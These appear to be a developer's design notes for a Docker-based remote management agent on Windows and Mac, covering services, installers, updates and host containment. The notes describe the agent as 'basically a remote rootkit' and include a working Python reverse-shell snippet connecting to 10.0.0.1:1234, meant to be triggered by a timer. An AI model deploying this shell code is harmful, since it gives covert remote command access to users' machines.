 Software Agent

Must run on Windows and Mac. Not optional

Must set up infrastructure:
    PKI
    A reverse shell
    Basically a remote rootkit

docker-compose on windows and mac?

Windows and Mac scripts to manage the docker system?

Push everything possible into a docker image

How to do rpc?
    Are Docker hostnames visible to other images on the same Docker network? YES!!!!
    Each service gets a hardcoded hostname

How to package?
    Installing docker
    Installing our images and docker-compose
    Host service that monitors the docker images
    Updating the images
    Code signing/certification for each platform

Windows Service:
    http://thepythoncorner.com/dev/how-to-create-a-windows-service-in-python/

Linux Service:
    systemd

Mac Service:

https://docs.docker.com/docker-for-windows/install/
https://docs.docker.com/docker-for-mac/install/

Enable features from an install script in windows?
    https://docs.microsoft.com/en-us/windows-hardware/manufacture/desktop/enable-or-disable-windows-features-using-dism
    Microsoft-Windows-Subsystem-Linux

Windows Installer:
    "Beginning with Windows Installer 5.0, a package can be authored to secure new accounts, Windows Services, files, folders, and registry keys. The package can specify a security descriptor that denies permissions, specifies inheritance of permissions from a parent resource, or specifies the permissions of a new account. "
    https://docs.microsoft.com/en-us/windows/win32/msi/windows-installer-portal

Service depends on Docker service

OnStart:
    Check for updates
    Start docker-compose

OnStop:
    Stop docker-compose

The system specific code should be limited to controlling the docker service and docker-compose

Control the host service from docker? Dangerous because attackers could potentially hack a docker image and then control the host

Reverse shell:
    import socket,subprocess,os;
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
    s.connect(("10.0.0.1",1234));
    os.dup2(s.fileno(),0);
    os.dup2(s.fileno(),1);
    os.dup2(s.fileno(),2);
    p=subprocess.call(["/bin/sh","-i"]);

    Need a timer to call it

docker-compose up -d

What are the requirements?
    A way to manage 'apps' 
    A host based API
    A user managment system:
        Sign-in with Google
    A way to send and receive generic updates
    A UUID for the device

How do we contain the agent on the host?
    No app should have direct access to the host
    What interactions will we have with the host?
        Managing the service
        Limited osquery usage

Can we containerize the host services?
    Update transceiver:
        Applying downloaded updates requires us to step out of container and effect the host
    Local API Endpoint:
        Alomst certainly
    Storage System:
        We'll need as direct of access to storage as possible.
        Might not be able to containerize efficiently.

Service that controls docker
Way for transceiver container to tell host to update docker